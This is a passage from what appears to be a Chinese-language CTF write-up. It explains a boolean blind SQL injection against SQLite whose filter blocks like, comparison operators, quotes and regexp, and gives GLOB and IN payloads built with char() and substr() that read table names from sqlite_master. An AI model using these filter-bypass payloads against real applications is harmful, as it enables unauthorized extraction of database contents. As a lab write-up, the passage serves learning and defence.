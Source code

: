 ```javascript
        if (row["ITEM"] && row["LOG"]){
            res.render("reward", {"award": row["ITEM"], "message" : row["LOG"]} )
        } else res.render("reward", {"award": "", "log": ""})
    })
```



布尔盲注，过滤了`like > < = ' " regexp`

可以利用`glob` 子句 类似 `like`

*SQLite 的 **GLOB** 运算符是用来匹配通配符指定模式的文本值。如果搜索表达式与模式表达式匹配，GLOB 运算符将返回真（true），也就是 1。与 LIKE 运算符不同的是，GLOB 是大小写敏感的，对于下面的通配符，它遵循 UNIX 的语法。*

```sql
select substr((SELECT group_concat(name) FROM sqlite_master),1,1) glob char(116)
```



![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201208113958.png)



或者使用`in` 语句

```sql
select char(116) in (substr((SELECT group_concat(name) FROM sqlite_master),1,1))
```



![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201208114841.png)



![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201208115112.png)